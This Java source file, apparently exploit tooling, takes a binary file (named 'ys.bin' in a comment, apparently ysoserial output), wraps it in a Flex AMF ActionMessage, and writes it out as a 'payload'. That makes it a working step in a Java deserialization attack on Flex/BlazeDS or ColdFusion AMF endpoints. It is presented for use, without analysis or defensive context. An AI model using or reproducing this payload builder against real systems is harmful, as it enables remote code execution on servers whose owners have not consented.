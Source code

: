 import flex.messaging.io.amf.MessageBody;
import flex.messaging.io.amf.ActionMessage;
import flex.messaging.io.SerializationContext;
import flex.messaging.io.amf.AmfMessageSerializer;
import java.io.*;

public class ACSFlex {
    public static void main(String[] args) {
        try {
            // Read binary data from ys.bin
            byte[] binData = readBinaryFile(args[0]);

            // Serialize binary data to AMF message
            byte[] amf = serialize(binData);

            // Write the serialized AMF message to the output file
            DataOutputStream os = new DataOutputStream(new FileOutputStream(args[1]));
            os.write(amf);
            System.out.println("Done, payload written to " + args[1]);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    // Method to read binary data from a file
    public static byte[] readBinaryFile(String filePath) throws IOException {
        File file = new File(filePath);
        byte[] data = new byte[(int) file.length()];
        try (FileInputStream fis = new FileInputStream(file)) {
            fis.read(data);
        }
        return data;
    }

    // Method to serialize data to AMF message
    public static byte[] serialize(Object data) throws IOException {
        MessageBody body = new MessageBody();
        body.setData(data);

        ActionMessage message = new ActionMessage();
        message.addBody(body);

        ByteArrayOutputStream out = new ByteArrayOutputStream();

        AmfMessageSerializer serializer = new AmfMessageSerializer();
        serializer.initialize(SerializationContext.getSerializationContext(), out, null);
        serializer.writeMessage(message);

        return out.toByteArray();
    }
}
